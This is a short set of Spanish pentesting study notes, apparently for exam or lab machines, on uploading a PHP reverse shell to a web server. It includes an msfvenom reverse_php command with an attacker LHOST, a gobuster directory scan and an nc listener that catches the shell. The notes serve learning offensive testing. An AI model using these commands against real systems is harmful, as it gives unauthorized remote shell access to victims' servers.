 
Vamos a ver cómo podemos generar un payload en PHP que podamos subir al servidor y así obtener acceso a la máquina víctima. Para ello, vamos a acceder a un servidor FTP como Anonymous, que será donde subamos nuestro payload y adquirir esa intrusión al servidor.

Si nos encontramos una Web de login lo primero que tenemos que hacer si se puede es crearse una cuenta.
Lo segundo que habría que car si hemos conseguido registrar un usuario es, si la web tiene por algún lado el nombre de la Web o el tipo de servicio como por ejemplo Apache, Tomcat... la buscamos en [[METASPLOIT]] SIEMPRE por si acaso hay un exploit para ello.
En tercer lugar lo que tendremos que hacer es ver si la Web tiene alguna opción para subir archivos. Si lo tiene tendremos que crear un archivo malicioso con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]], una vez subirlo saber donde se guarda este archivo en la maquina victima lo haremos con Fuzzing.

Vamos a crear el Payload con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
` msfvenom -p php/reverse_php LHOST=192.168.1.19 LPORT=443 raw > pwned.php`

Subimos el archivo a la Web.
Ahora tenemos que saber donde se ubica el archivo usamos para esto [[00. Apuntes/01. Herramientas/GOBUSTER|GOBUSTER]]
`gobuster dir -u http://192.168.1.19/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

Encontraremos la dirección donde se suben los archivos y navegamos a ella.
Tendremos que ponernos en escucha con [[NETCAT]] en el puerto que hemos indicado en el [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
`nc -lvnp 443`

Y hacer click en el archivo que hemos subido a la ruta

Los payloads de [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] funcionan mal así que es aconsejable buscar la reverse shell en https://www.revshells.com/  
Nos lo tendremos que abrir fuera de la maquina del examen y una vez tenemos conexión a través de [[NETCAT]] añadimos el payload que nos ha generado la web.
Hay que tener en otra terminal un [[NETCAT]] en otro puerto diferente con el que tenemos con la maquina victima.

